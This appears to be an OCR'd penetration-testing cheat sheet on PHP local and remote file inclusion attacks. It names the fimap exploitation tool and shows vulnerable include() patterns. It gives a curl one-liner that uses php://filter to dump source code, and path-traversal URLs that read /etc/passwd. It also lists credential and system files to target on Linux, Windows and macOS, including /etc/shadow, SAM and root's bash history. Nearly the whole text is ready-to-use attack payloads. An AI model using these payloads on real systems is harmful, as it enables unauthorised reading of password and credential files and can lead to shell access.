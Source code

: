 File Inclusion Vulnerabilities
Local (LFI) and remote (RFI) file inclusion vulnerabilities are commonly found in poorly written PHP code.

fimap - There is a Python tool called fimap which can be leveraged to automate the exploitation of LFI/RFI vulnerabilities that are found in PHP (sqlmap for LFI):
https://github.com/kurobeats/fimap

Gaining a shell from phpinfo()
fimap + phpinfo() Exploit - If a phpinfo() file is present, it’s usually possible to get a shell, if you don’t know the location of the phpinfo file fimap can probe for it, or you could use a tool like OWASP DirBuster.
For Local File Inclusions look for the include() function in PHP code.
include("lang/".$_COOKIE['lang']);
include($_GET['page'].".php");

LFI - Encode and Decode a file using base64
curl -s http://$ip/?page=php://filter/convert.base64-encode/resource=index | grep -e '[^\ ]\{40,\}' | base64 -d

LFI - Download file with base 64 encoding
http://$ip/index.php?page=php://filter/convert.base64-encode/resource=admin.php

LFI Linux Files:
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root

LFI Windows Files:
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt

LFI OSX Files:
/etc/fstab
/etc/master.passwd
/etc/resolv.conf
/etc/sudoers
/etc/sysctl.conf

LFI - Download passwords file
http://$ip/index.php?page=/etc/passwd
http://$ip/index.php?file=../../../../etc/passwd
